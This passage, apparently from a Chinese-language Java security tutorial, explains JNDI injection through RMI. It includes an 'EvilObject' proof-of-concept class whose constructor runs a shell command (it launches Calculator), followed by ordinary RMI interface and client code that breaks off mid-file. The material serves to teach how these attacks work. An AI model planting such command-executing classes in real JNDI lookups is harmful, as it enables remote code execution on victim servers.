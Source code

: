 ```java
        }
    }
}
```

EvilObject.java

```java
import java.lang.Runtime;

public class EvilObject {
    public EvilObject() throws Exception {
        Runtime.getRuntime().exec("open -a Calculator");
    }
}
```

![image-20201021135305903](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201021135305903.png)



### 3.2RMI服务端直接绑定远程对象

首先一个对象方法要想被远程应用所调用需要其 extends 于 `java.rmi.Remote` 接口，并需要抛出 `RemoteException` 异常，而远程对象必须实现 `java.rmi.server.UniCastRemoteObject` 类。首先创建一个 `IHello` 的接口（`IHello.java`）：

```
import java.rmi.Remote;
import java.rmi.RemoteException;

public interface IHello extends Remote {
    public String sayHello(String name) throws RemoteException;
}
```

再创建 `IHelloImpl` 类实现 `java.rmi.server.UniCastRemoteObject` 类并包含 `IHello` 接口（`IHelloImpl.java`）：

```
import java.rmi.RemoteException;
import java.rmi.server.UnicastRemoteObject;

public class IHelloImpl extends UnicastRemoteObject implements IHello {
    protected IHelloImpl() throws RemoteException {
        super();
    }
    public String sayHello(String name) throws RemoteException {
        return "Hello " + name + " ^_^ ";
    }
}
```

最后用 RMI 绑定实例对象方法，并使用 JNDI 去获取并调用对象方法（`CallService.java`）

```
import java.util.Properties;
import java.rmi.registry.Registry;
import java.rmi.registry.LocateRegistry;
import javax.naming.Context;
import javax.naming.InitialContext;

public class CallService {
    public static void main(String args[]) throws Exception {
        // 配置 JNDI 默认设置
        Properties env = new Properties();
        env.put(Context.INITIAL_CONTEXT_FACTORY,
                "com.sun.jndi.rmi.registry.RegistryContextFactory");
        env.put(Context.PROVIDER_URL,
                "rmi://localhost:1099");
```